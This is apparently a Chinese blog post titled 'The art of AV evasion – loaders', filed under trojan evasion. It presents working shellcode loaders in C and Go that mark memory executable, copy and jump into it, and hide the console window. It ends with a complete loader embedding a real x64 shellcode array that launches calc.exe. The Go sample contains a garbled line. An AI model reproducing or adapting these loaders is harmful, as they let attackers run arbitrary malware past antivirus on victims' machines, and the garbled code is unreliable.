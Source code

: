 ```yaml
---
layout: mypost
title: "免杀的艺术-加载器"
categories: [木马免杀]
---
```


## 定义

啥是个加载器呢，就是现在有一段写好的shellcode，但是它不能被执行，必须有一个东西把它加载到内存中去执行，而不同的语言都会有着不一样的加载器，但其实本质都是一样的，都是一套东西，不管是Nim还是Python本质上还是去调用一些系统的API函数

## C/C++加载

### 嵌入汇编

这个就是个jmp eax，没个啥难理解的

```C
#pragma comment(linker, "/section:.data,RWE")
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] = "你的shellcode";
void main()
{
	__asm
	{

		mov eax, offset shellcode
		jmp eax
	}
}
```

### 汇编花指令

嵌入汇编和花指令都差不多，只不过可能花指令可以做一点混淆吧，但本质上都是一样的，都是jmp eax，但都只能适用于x86的木马的生成

```C
#pragma comment(linker, "/section:.data,RWE")
#include <windows.h>
#include <stdio.h>

unsigned char xff[] = "你的shellcode";
void main()
{
	__asm
	{		
		mov eax, offset xff;
		_emit 0xFF;
		_emit 0xE0;
	}
}
```

### 指针执行

```C
#pragma comment(linker, "/section:.data,RWE") //将data段的内存设置成可读可写可执行
#include <Windows.h>
#include <stdio.h>

unsigned char buf[] =
"你的shellcode";

int main()
{
	
	((void(*)(void)) & buf)();
}
```

### 强制类型转换

```C
#include <windows.h>
#include <stdio.h>

unsigned char buff[] = "你的shellcode";

void main()
{
	((void(WINAPI*)(void)) & buff)();
}
```

上述四种方法都需要将data节的内存设置成可读可写可执行, 以下这段代码的主要作用是在内存中分配一段可执行的内存空间

### 申请动态内存

```C
#include <Windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")
//windows控制台程序不出黑窗口

int main()
{
    char shellcode[] = "你的shellcode";
    
    void* exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode, sizeof shellcode);
    
    ((void(*)())exec)();
}
```

## Golang加载

```go
package main

import (
  "syscall"
  "unsafe"
)

const (
  MEM_COMMIT             = 0x1000
  MEM_RESERVE            = 0x2000
  PAGE_EXECUTE_READWRITE = 0x40 // 区域可以执行代码，应用程序可以读写该区域。
)

var (
  kernel32      = syscall.MustLoadDLL("kernel32.dll")
  ntdll         = syscall.MustLoadDLL("ntdll.dll")
  VirtualAlloc  = kernel32.MustFindProc("VirtualAlloc")
  RtlCopyMemory = ntdll.MustFindProc("RtlCopyMemory")
)

func main() {
  xor_shellcode := []byte{} C#  0xfc，

  addr, _, err := VirtualAlloc.Call(0, uintptr(len(xor_shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
  if err != nil && err.Error() != "The operation completed successfully." {
    syscall.Exit(0)
  }
  _, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&xor_shellcode[0])), uintptr(len(xor_shellcode)))
  if err != nil && err.Error() != "The operation completed successfully." {
    syscall.Exit(0)
  }
  syscall.Syscall(addr, 0, 0, 0, 0)
}
```

以上说的这些大家都可以去实战一下，模拟这一块的话，我用的就是一个弹出calc的一个bin去做实验，看是否能成功的，然后接下来去看一下怎么去生成一个自己的shellcode，具体的原理可以看我的下一篇文章，这里就简单用下框架，让大家看个效果即可

## shellcode生成

先看一下这个项目的一个大概，这是个可以生成64位马的项目，其实还是蛮稀缺的，想要的dd我

![](images/image-1-1024x477.png)

然后F7F5一下，看效果，直接弹计算器哈

![](images/image-2-1024x675.png)

然后翻release文件夹，看生成的.bin文件

![](images/image-3.png)

这里不想麻烦的话，直接用个脚本转成.c结尾的文件然后cv

![](images/image-4.png)

然后将该字节码复制到咱们上面的各种Loader的对应位置去一一尝试即可，比如演示一个用指针加载的

```C
#pragma comment(linker, "/section:.data,RWE") //将data段的内存设置成可读可写可执行
#include <Windows.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")
/* length: 276992 bytes */
unsigned char buf[] = {
0xe9,0x0b,0x01,0x00,0x00,0xcc,0xcc,0xcc,0x48,0x8b,0xc4,0x48,0x89,0x58,0x08,0x48,
0x89,0x68,0x10,0x48,0x89,0x70,0x18,0x48,0x89,0x78,0x20,0x41,0x56,0x41,0x57,0x65,
0x48,0x8b,0x04,0x25,0x60,0x00,0x00,0x00,0x44,0x8b,0xf9,0x48,0x8b,0x50,0x18,0x4c,
0x8b,0x72,0x20,0x4d,0x8b,0xc6,0x4d,0x8b,0x48,0x20,0x4d,0x8b,0x00,0x4d,0x85,0xc9,
0x0f,0x84,0x89,0x00,0x00,0x00,0x49,0x63,0x41,0x3c,0x42,0x8b,0x8c,0x08,0x88,0x00,
0x00,0x00,0x85,0xc9,0x74,0x79,0x4d,0x8d,0x14,0x09,0x41,0x8b,0x52,0x0c,0x49,0x03,
0xd1,0x33,0xff,0xeb,0x16,0xc1,0xcf,0x0d,0x41,0x0f,0xbe,0xcb,0x41,0x80,0xfb,0x61,
0x8d,0x41,0xe0,0x0f,0x4c,0xc1,0x03,0xf8,0x48,0xff,0xc2,0x44,0x8a,0x1a,0x45,0x84,
0xdb,0x75,0xe2,0x41,0x8b,0x52,0x20,0x45,0x33,0xdb,0x49,0x03,0xd1,0x45,0x39,0x5a,
0x18,0x76,0x3c,0x8b,0x1a,0x49,0x03,0xd9,0x33,0xf6,0xeb,0x16,0xc1,0xce,0x0d,0x40,
0x0f,0xbe,0xcd,0x40,0x80,0xfd,0x61,0x8d,0x41,0xe0,0x0f,0x4c,0xc1,0x03,0xf0,0x48,
0xff,0xc3,0x40,0x8a,0x2b,0x40,0x84,0xed,0x75,0xe2,0x8d,0x04,0x3e,0x44,0x3b,0xf8,
0x74,0x31,0x41,0xff,0xc3,0x48,0x83,0xc2,0x04,0x45,0x3b,0x5a,0x18,0x72,0xc4,0x4d,
0x3b,0xc6,0x0f,0x85,0x5e,0xff,0xff,0xff,0x33,0xc0,0x48,0x8b,0x5c,0x24,0x18,0x48,
0x8b,0x6c,0x24,0x20,0x48,0x8b,0x74,0x24,0x28,0x48,0x8b,0x7c,0x24,0x30,0x41,0x5f,
0x41,0x5e,0xc3,0x41,0x8b,0x4a,0x24,0x49,0x03,0xc9,0x46,0x0f,0xb7,0x04,0x59,0x41,
0x8b,0x4a,0x1c,0x49,0x03,0xc9,0x42,0x8b,0x04,0x81,0x49,0x03,0xc1,0xeb,0xcb,0xcc,
0x40,0x55,0x48,0x8b,0xec,0x48,0x83,0xec,0x40,0xb9,0x8d,0x10,0xb7,0xf8,0xc7,0x45,
0xf0,0x6b,0x65,0x72,0x6e,0xc7,0x45,0xf4,0x65,0x6c,0x33,0x32,0xc7,0x45,0xf8,0x2e,
0x64,0x6c,0x6c,0xc6,0x45,0xfc,0x00,0xc7,0x45,0xe0,0x63,0x61,0x6c,0x63,0xc7,0x45,
0xe4,0x2e,0x65,0x78,0x65,0xc6,0x45,0xe8,0x00,0xe8,0xba,0xfe,0xff,0xff,0x48,0x8d,
0x4d,0xf0,0xff,0xd0,0xb9,0x7f,0xc0,0xb4,0x7b,0xe8,0xaa,0xfe,0xff,0xff,0xba,0x05,
0x00,0x00,0x00,0x48,0x8d,0x4d,0xe0,0xff,0xd0,0x48,0x83,0xc4,0x40,0x5d,0xc3,0xcc
};
int main()
{
    ((void(*)(void)) & buf)();
    return 0;
}
```

![](images/image-5-1024x623.png)

嗯嗯就这样吧，睡喽！